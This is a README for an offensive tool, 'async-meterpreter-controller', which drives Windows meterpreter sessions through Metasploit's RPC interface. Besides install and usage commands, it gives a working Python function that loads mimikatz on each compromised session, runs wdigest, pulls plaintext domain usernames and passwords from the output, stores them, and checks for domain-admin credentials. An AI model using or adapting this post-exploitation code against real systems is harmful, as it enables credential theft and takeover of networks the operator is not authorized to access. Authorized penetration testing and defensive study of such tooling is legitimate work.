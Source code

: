 async-meterpreter-controller
------
Waits for a windows meterpreter shell then lets you asynchronously do whatever you want with it.

#### Installation
This install is only tested on Kali. Clone into the repo, enter the cloned folder and run install.sh. Open a new terminal and start metasploit with the included rc file. Back in the original terminal continue by entering the newly-created virtual environment with pipenv. Finally, enter the included msfrpc/ folder and install it now that you're inside the virtual environment.

```
git clone https://github.com/DanMcInerney/async-meterpreter-controller
cd async-meterpreter-controller
In a new terminal: msfconsole -r msfrpc.rc
pipenv install --three
pipenv shell
cd msfrpc && python2 setup install && cd ..
./async-meterpreter-controller.py
```

#### Usage
```./async-meterpreter-controller.py```

#### How to extend
By default all the script does is run `sysinfo`, `getuid`, and windows/post/gather/win_privs then prints all the shell info to the console. All session data is being stored in the global NEW_SESS_DATA dictionary. To extend the template and send commands and get output from each meterpreter session you'll want to go to line 340. Here's an example of how you'd run mimikatz on each session. This code is called on 342 and the function resides at 302:

```
async def run_mimikatz(client, sess_num):
    global DOMAIN_DATA
    load_mimi_cmd = 'load mimikatz'
    load_mimi_end_strs = [b'Success.', b'has already been loaded.']
    load_mimi_output, err = await run_session_cmd(client, sess_num, load_mimi_cmd, load_mimi_end_strs)
    if err:
        return
    wdigest_cmd = 'wdigest'
    wdigest_end_str = [b'    Password']
    mimikatz_output, err = await run_session_cmd(client, sess_num, wdigest_cmd, wdigest_end_str)
    if err:
        return 
    else:
        mimikatz_split = mimikatz_output.splitlines()
        for l in mimikatz_split:
            if l.startswith(b'0;'):
                line_split = l.split()
                dom = line_split[2]
                if dom.lower() == NEW_SESS_DATA[sess_num][b'domain'].lower():
                    user = '{}\{}'.format(dom.decode('utf8'), line_split[3].decode('utf8'))
                    password = line_split[4]
                    if b'wdigest KO' not in password:
                        user_and_pass = '{}:{}'.format(user, password.decode('utf8'))
                        if user_and_pass not in DOMAIN_DATA['creds']:
                            DOMAIN_DATA['creds'].append(user_and_pass)
                            print_good(msg, sess_num)
                            check_for_DA(user_and_pass)
```
